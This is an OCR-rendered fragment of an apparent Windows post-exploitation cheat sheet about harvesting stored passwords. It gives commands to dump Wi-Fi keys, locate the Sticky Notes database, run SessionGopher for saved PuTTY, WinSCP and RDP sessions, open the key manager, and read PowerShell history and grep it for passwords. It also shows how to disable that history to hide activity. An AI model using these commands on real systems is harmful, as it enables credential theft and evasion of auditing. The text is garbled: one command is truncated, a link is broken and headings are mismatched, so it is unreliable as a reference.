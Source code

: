 **Oneliner method to extract wifi passwords from all the access point.**

#### Sticky Notes passwords

**The sticky notes app stores it's content in a sqlite db located at C:\Users\\**

\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes\_8wekyb3d8bbwe\LocalSt

ate\plum.sqlite

#### Passwords stored in services

**Saved session information for PuTTY, WinSCP, FileZilla, SuperPuTTY, and RDP using**

**SessionGopher**

```
cls & echo. & for /f "tokens=4 delims=: " %a in ('netsh wlan show profiles ^| find "Profile "'
```

```
https://tinyurl.com/ 2 cdzl9hw
Import-Module path\to\SessionGopher.ps1;
Invoke-SessionGopher -AllDomain -o
Invoke-SessionGopher -AllDomain -u domain.com\adm-arvanaghi -p s3cr3tP@ss
```

#### Passwords stored in Key Manager

**:warning: This software will display its output in a GUI**

```
rundll32 keymgr,KRShowKeyMgr
```

#### Powershell History

**Disable Powershell history: Set-PSReadlineOption -HistorySaveStyle SaveNothing.**

#### Powershell Transcript

#### Password in Alternate Data Stream

```
PS > Get-Item -path flag.txt -Stream *
PS > Get-Content -path flag.txt -Stream Flag
```

### EoP - Processes Enumeration and Tasks

**What processes are running?**

```
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
type C:\Users\swissky\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
cat (Get-PSReadlineOption).HistorySavePath
cat (Get-PSReadlineOption).HistorySavePath | sls passw
```
